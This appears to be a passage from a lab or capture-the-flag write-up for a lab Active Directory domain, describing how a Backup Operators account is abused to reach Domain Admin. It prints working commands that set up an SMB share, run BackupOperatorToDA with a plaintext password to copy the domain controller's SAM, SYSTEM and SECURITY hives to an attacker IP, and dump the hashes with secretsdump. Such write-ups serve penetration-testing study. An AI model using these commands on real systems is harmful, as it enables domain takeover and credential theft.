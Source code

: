 #### Abusing the Backup Admins Privileges

We could not use the credentials to log in using Evil-WinRM or RDP to any hosts.

<img src="attachments/e750eaecf5655f64b0a9ceb32f3b3fdb.png" />

Since we obtained the `tony.ward` password, we were able to use it to extract the SAM database from the **lusdc** host. We leveraged the [BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA) tool to do so. The tool attempted to dump the SAM file from the **lusdc** host and export it to the remote share. We had to create an SMB share using the `smbserver` script from Impacket first.

>_BackupOperatorToDA : If you compromise an account member of the group Backup Operators you can become the Domain Admin without RDP or WinRM on the Domain Controller._

```
impacket-smbserver -smb2support smb $(pwd)
```

Then, we uploaded the tool to the RDP session and executed it with the necessary parameters.

```
.\BackupOperatorToDA.exe -t \\lusdc.lustrous.vl -u tony.ward -p U_cPVQqEI50i1X -d lustrous.vl -o \\10.8.4.157\smb\
```

<img src="attachments/163ceae0457edf49a7a39109f6e6bbbd.png" />

After saving the needed files to our smb share, we used `secretsdump` to dump the hashes of the **LusDC** host and were successful.

```
impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY local
```

<img src="attachments/c9a9d0578afb15d7f2809f6e93d88d41.png" />
